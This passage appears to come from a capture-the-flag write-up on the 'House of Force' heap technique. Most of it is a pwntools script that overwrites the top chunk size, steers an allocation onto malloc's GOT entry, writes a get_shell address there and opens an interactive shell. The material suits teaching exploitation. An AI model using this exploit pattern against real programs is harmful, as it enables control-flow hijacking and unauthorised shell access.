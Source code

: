 ```target_size = malloc@got - top_chunk_address - 8```  
top_chunk = int(leak_heap,16) + 20

log.info(f"top chunk: {hex(top_chunk)}")

#overwrite top chunk


input()
p.sendlineafter(b'> ',b'2')
p.sendlineafter(b'ptr idx: ',b'0')
p.sendlineafter(b'write idx: ',b'5')
p.sendlineafter(b'value: ',str(int(0xffffffff)))

target = exe.got.malloc
pause()
win = target - top_chunk - 8
p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'Size: ',str(int(win)))
p.sendlineafter(b'Data: ',b'a'*win)

input()
p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"Size: ", b"4")
p.sendlineafter(b"Data: ", p32(exe.sym.get_shell))


p.sendlineafter("> ", '1')
p.sendlineafter("Size: ", str(0x10))
p.interactive()

```

![here](/assets/images/heap/house_of_force/flagkaka.png)
